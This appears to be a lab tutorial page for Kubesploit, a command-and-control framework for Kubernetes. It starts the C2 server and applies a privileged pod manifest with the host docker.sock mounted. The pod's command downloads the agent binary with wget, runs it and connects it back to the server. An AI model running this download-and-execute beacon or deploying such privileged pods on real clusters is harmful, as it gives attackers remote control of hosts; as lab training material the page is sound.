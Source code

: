 Here we will see the basic settings of Kubesploit.

## Basics of Kubesploit

<p align="left">
  <img src="https://github.com/cyberark/kubesploit/blob/assets/1.5x/kubesploit@1.5x-100.jpg?raw=true" width="200" height="200">
</p>



Kubesploit is a cross-platform post-exploitation HTTP/2 Command & Control server and agent written in Golang, focused on containerized environments.  
More information can be found here:  
https://github.com/cyberark/kubesploit  


#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `echo $HOST_IP`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute T1}}

Start the server `./kubesploitServer-Linux-x64`{{execute T1}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  


#### Agent

`Open`{{execute T3}} new terminal on the master and start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/cyberark/kubesploit/releases/download/v0.1.0/kubesploitAgent-Linux-x64_katacoda && chmod +x kubesploitAgent-Linux-x64_katacoda && ./kubesploitAgent-Linux-x64_katacoda -url https://$HOST_IP:443 -psk kubesploit & sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: docker-sock
      mountPath: /var/run/docker.sock
  volumes:
  - name: docker-sock
    hostPath:
      path: /var/run/docker.sock
EOF```{{execute T2}}  



Go to the first terminal of the master and check if a new connection was received with the message "New authenticated agent checkin..".  
Once you see it, run `main`{{execute T1}} and then `agent list`{{execute T1}} to see the new connection details.  

